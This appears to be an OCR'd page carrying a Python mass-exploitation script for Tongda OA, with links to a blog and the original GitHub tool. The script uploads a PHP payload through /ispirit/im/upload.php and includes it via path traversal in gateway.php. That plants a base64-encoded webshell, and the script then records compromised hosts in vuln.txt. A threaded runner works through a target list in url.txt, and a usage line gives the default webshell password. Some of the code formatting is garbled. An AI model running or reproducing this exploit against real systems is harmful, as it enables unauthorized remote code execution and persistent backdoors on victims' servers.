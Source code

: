 uploadData = "------fuck123\r\nContent-Disposition: form-data; name=\"UPLOAD_MODE\"\r\n\r\n1\r\n------fuck123\r\nContent-Disposition: form-data; name=\"P\"\r\n\r\n" + cookie[cookie.find("=")+1:cookie.find(";")] + "\r\n------fuck123\r\nContent-Disposition: form-data; name=\"DEST_UID\"\r\n\r\n1\r\n------fuck123\r\nContent-Disposition: form-data; name=\"ATTACHMENT\"; filename=\"jpg\"\r\nContent-Type: image/jpeg\r\n\r\n&lt;?php\r\nfile_put_contents($_SERVER[\"DOCUMENT_ROOT\"].\"/" + webPath + "\", base64_decode('" + b64Shell + "'));\r\necho \"" + uploadFlag + "\";\r\n?&gt;\r\n------fuck123--"
try:
    uploadHeader["Cookie"] = cookie
    req1 = requests.post(u + "/ispirit/im/upload.php", headers=uploadHeader, verify=False, data=uploadData, timeout=25)
    text = req1.text
    if req1.status_code == 200 and "[vm]" in text:
        uploadFilePath = text[text.find("@")+1:text.find("|")].replace("_", "/")
        includeData = 'json={"url":"/general/../../attach/im/' + uploadFilePath + '.jpg"}'
        req2 = requests.post(u + "/mac/gateway.php", headers=header, verify=False, data=includeData, timeout=25)
        if req2.status_code == 404 or uploadFlag not in req2.text:
            req2 = requests.post(u + "/ispirit/interface/gateway.php", headers=header, verify=False, data=includeData, timeout=25)
        if req2.status_code == 200 and uploadFlag in req2.text:
            shellPath = u + webPath
            req3 = requests.get(shellPath, headers=header, verify=False, timeout=25)
            if shellFlag in req3.text:
                printFlag = "[Getshell]：" + shellPath + "\t" + cookie + "\n"
                wirte_targets(shellPath, "vuln.txt")
except:
    pass
print(printFlag, end="") 
```

def multithreading(funcname, filename=“url.txt”, pools=5):

works = []

with open(filename, “r”) as f:

for i in f:

func_params = [i.rstrip("\n")]

works.append((func_params, None))

pool = threadpool.ThreadPool(pools)

reqs = threadpool.makeRequests(funcname, works)

[pool.putRequest(req) for req in reqs]

pool.wait()

if **name** == “**main**”:

multithreading(exp, “url.txt”, 8)      # Default threads 8

# Usage: python tongda.py

# Default webshell password:a 
```

## 参考链接

> https://www.yuque.com/xiaoxuan-3vnio/nucw6f/wbqg8f

> https://github.com/clm123321/tongda_oa_rce/blob/master/tongda.py